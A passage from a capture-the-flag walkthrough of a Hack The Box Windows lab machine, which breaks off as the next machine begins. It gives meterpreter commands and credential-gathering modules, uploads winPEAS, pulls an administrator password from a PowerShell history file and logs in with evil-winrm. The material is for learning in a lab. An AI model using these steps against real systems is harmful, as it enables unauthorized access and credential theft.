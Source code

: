 13. The **user** flag is in the user `sql_svc` desktop, `cat` it out.

       ```bash
       meterpreter> cat C:/Users/sql_svc/desktop/user.txt
       ```

      (You can also try other commands like `run post/windows/gather/credentials/[tap Tab]` to gather credentails on Windows, `run post/multi/recon/local_exploit_suggester` to suggest exploits)

14. As we noticed that there an `Admintrator` user in the Windows machine, we are going to use **winPEAS** (Windows Privilege Escalation Awesome Script) for privilege escalation. Download winPEASx64.exe from https://github.com/carlospolop/PEASS-ng/releases, then upload it to the target.

     ```bash
     root@kali[~]> wget https://github.com/carlospolop/PEASS-ng/releases/download/20220911/winPEASx64.exe
     meterpreter> upload winPEASx64.exe
     ```

15. Run it via *PowerShell*

     ```
     meterpreter> shell
     C:\Users\sql_svc\Documents> .\winPEASx64.exe
     ```

16. After running you got *many exploits information*, as a **service account**, it is worth to check the frequently access files or executed commands. Let's go check the **PowerShell history file**. The path is the following:

     ![](../assets/img/htb-starting-point/21.png)

     ```powershell
     type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
     ```

     ![](../assets/img/htb-starting-point/22.png)

     User `administrator` with password `MEGACORP_4dm1n!!` is there.

17. As **port 5985 (Microsoft Windows Remote Management)** is opened, now use `evil-winrm` to login as `administrator`

     ```bash
     evil-winrm -u administrator -p 'MEGACORP_4dm1n!!' -i TARGET_IP
     ```

      ![](../assets/img/htb-starting-point/23.png)

     The root flag is in the `C:\Users\Administrator\Desktop\root.txt`!

# 2.2 Oopsie

1. `nmap` scan with script

